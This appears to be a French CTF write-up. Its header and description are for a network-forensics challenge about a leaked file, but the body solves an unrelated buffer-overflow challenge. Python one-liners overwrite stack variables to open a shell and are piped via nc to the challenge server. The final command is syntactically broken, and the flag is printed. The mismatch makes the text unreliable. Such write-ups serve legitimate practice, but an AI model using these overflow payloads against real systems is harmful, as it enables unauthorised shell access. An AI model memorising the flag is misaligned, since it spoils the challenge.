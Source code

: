 
# Un Agent Compromis 1/3



- Category: `Forensic`
- Points: `1000` => `864`
- Difficulty: Intro
- Solves: `390`


**Description**

> Nous avons surpris un de nos agents en train d'envoyer des fichiers confidentiels depuis son ordinateur dans nos locaux vers Hallebarde. Malheureusement, >il a eu le temps de finir l'exfiltration et de supprimer les fichiers en question avant que nous l'arrêtions.
>Heureusement, nous surveillons ce qu'il se passe sur notre réseau et nous avons donc une capture réseau de l'activité de son ordinateur. Retrouvez le >fichier qu'il a téléchargé pour exfiltrer nos fichiers confidentiels.
>
> Auteur : Typhlos#9037
>


**Attachments**

- `capture-reseau.pcapng`

### :book: Introduction

 Chall super rapide a faire et super facile


![home](![image](https://user-images.githubusercontent.com/64932654/167711362-83b80e2f-f083-4199-ac3a-598aba2f2f82.png))
- Le code source est relativement simple:
    - **Il y a une variable buf de 40 octets qui prend comme valeur un fgets de 49 octets l'input**
    - **Une valeur check qui est egal a "0xcafebebe"**
    - **Une valeur key qui est egal a "0xdeadbeef"**
    - **On remarque que si key est egal a "0xcafebebe" et check a "0xdeadbeef" un shell se lance**
Il faut donc depasser sur les variables key et check pour ouvrir un shell.




En regardant un peu on peut voir que la fonction fgets recupere 48 bytes (qui vont donc faire depasser la variable buf sur key et check
Donc en theorie si on rentre en input ```python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")' | ./compromis``` la pile devrait ressembler a ca: 


![pile](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/pile1.PNG)


On a donc reussi a depasser sur les variables check et key.

En appliquant: 


![shell](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/shellobtenu.PNG)


On obtient bien un message de reussite mais le shell ne reste pas.
Pour garder le controle sur l'entree standard il suffit d'executer


```(python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")';cat) | ./compromis```

On arrive maintenant a executer des commandes :)

### :arrows_counterclockwise: Exploitation
Il nous suffit maintenant simplement d'executer la meme commande mais en redirigeant le pipe vers le serveur :

```python -c 'print("A"*40+"\xef\xbe\xad\xde\xbe\xbe\xfe\xca")';cat) | nc challenge.404ctf.fr 32458```


![flag](https://github.com/Numb3rsProprety/404CTF/blob/main/trop-facile/flag.PNG)



```

Flag: `404CTF{C_7r0P_F4C113_D3_PWN_14_H411384rD3}`


```

